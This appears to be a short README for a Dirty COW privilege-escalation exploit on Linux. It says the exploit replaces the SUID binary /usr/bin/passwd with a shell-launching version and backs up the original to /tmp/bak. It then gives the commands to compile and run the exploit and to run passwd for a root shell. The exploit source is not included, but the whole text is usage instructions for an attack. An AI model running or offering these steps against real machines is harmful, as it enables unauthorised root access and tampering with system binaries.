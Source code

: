 # dirtycow
***
Dirtcow replaces the SUID binary file located at /usr/bin/passwd with a modified version that launches a shell. As a precaution, a backup of the original /usr/bin/passwd file is stored in /tmp/bak.

- Compile and execute
```sh
gcc -pthread /path/to/dirtycow.c -o dirtycow
./dirtycow
```

- After the exploit finishes, execute the "passwd" binary to obtain a root shell.
```sh
/usr/bin/passwd
```
